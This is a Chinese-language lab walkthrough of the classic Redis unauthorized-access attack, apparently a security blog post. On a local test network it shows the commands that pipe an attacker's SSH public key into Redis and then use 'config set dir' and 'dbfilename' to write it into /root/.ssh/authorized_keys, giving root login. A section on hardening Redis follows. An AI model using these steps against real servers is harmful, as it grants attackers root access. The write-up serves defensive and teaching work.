

Redis提权攻击
Redis（Remote Dictionary Server )，即远程字典服务，是一个开源的使用ANSI C语言编写、支持网络、可基于内存亦可持久化的日志型、Key-Value数据库，并提供多种语言的API。从2010年3月15日起，Redis的开发工作由VMware主持。从2013年5月开始，Redis的开发由Pivotal赞助。
0x00 Redis提权攻击
Redis在默认情况下，会绑定在 0.0.0.0:6379上，如果没有进行采用相关的策略，比如添加防火墙规则避免其他非信任来源ip访问等，这样将会将 Redis服务暴露到公网上。
如果在没有设置密码认证（一般为空）的情况下，会导致任意用户在可以访问目标服务器的情况下未授权访问 Redis 以及读取 Redis 的数据。
攻击者在未授权访问 Redis 的情况下，利用 Redis 自身的提供的config 命令，可以进行写文件操作，攻击者可以成功将自己的ssh公钥写入目标服务器的/root/.ssh文件夹的authotrized_keys文件中，进而可以使用对应私钥直接使用ssh服务登录目标服务器、添加计划任务、写入Webshell等操作。
| 类型 | IP | |
|---|---|---|
| 目标靶机 | Ubuntu18.04 | 192.168.138.143 |
| 攻击主机 | Kali2022 | 192.168.138.145 |
如果没有攻击机没有安装ssh则：
安装 |
0x01 被攻击机部分准备工作
在Ubuntu安装redis服务器
sudo apt-get install redis-server |
修改/etc/redis/redis.conf，总共有三点：
sudo vim /etc/redis/redis.conf |
①去除bind
②daemonize yes
③protected-mode no
重启服务
service redis stop |
0x02 攻击机部分准备工作
在攻击机上生成rsa秘钥
ssh-keygen -t rsa |
重定向到key.txt
cd /home/kali/.ssh |

第二句话的含义？其实就是在id_rsa.pub的前后加了一个回车
之后，我们在攻击机（也就是我的kali）上安装redis-cli
wget http://download.redis.io/redis-stable.tar.gz |
出现如下字样就说明安装成功：
redis-cli |
将我们生成的key.txt 放到远程主机(也就是开了redis服务的服务器)的redis-cli内存上，查看远程服务器的ip为：192.168.138.143
0x03 开始攻击
拿到redis的shell后基本操作：
info #查看redis的信息和服务器信息 |
在我们的攻击机(kali)上运行如下代码：
cat /home/kali/.ssh/key.txt | redis-cli -h 192.168.138.143 -x set test |
将目录切换到/root/.ssh
config set dir /root/.ssh |
设置数据库名，覆盖我们的文件（保存数据库的内容到/root/.ssh/authorized_keys ）
config set dbfilename authorized_keys |

最后，回到生成秘钥的终端：
使用ssh命令 以root用户的身份 连接“被攻击机”的ip |
至此，redis提权攻击完成。
0x04 修复建议/安全加固
1.禁止一些高危命令(重启redis才能生效)
修改 redis.conf 文件，添加
rename-command FLUSHALL "" |
或者另起名字
rename-command FLUSHALL "name1" |
来禁用远程修改 DB 文件地址
2.以低权限运行 Redis 服务
为 Redis 服务创建单独的用户和家目录，并且配置禁止登陆
groupadd -r redis && useradd -r -g redis redis |
3.为 Redis 添加密码验证
修改 redis.conf 文件，添加
requirepass mypassword |
4.禁止外网访问 Redis
修改 redis.conf 文件，添加或修改，使得 Redis 服务只在当前主机可用
bind 127.0.0.1 ::1 |
redis 3.2之后，redis增加了protected-mode ，在这个模式下，非绑定IP或者没有配置密码时都会报错。
5.保证 authorized_keys 文件的安全
为了保证安全，您应该阻止其他用户添加新的公钥。
将 authorized_keys 的权限设置为对拥有者只读，其他用户没有任何权限：
chmod 400 ~/.ssh/authorized_keys |
为保证 authorized_keys 的权限不会被改掉，您还需要设置该文件的 immutable 位权限：
chattr +i ~/.ssh/authorized_keys |
然而，用户还可以重命名 ~/.ssh，然后新建新的 ~/.ssh 目录和 authorized_keys 文件。要避免这种情况，需要设置 ~./ssh 的 immutable 位权限：
chattr +i ~/.ssh |
注意: 如果需要添加新的公钥，需要移除 authorized_keys 的 immutable 位权限。然后，添加好新的公钥之后，按照上述步骤重新加上 immutable 位权限。
6.修改默认端口
修改 redis.conf 文件， 找到并修改原来的port 6379 ，比如改成port 17033，让人摸不着头脑。
port 17033 |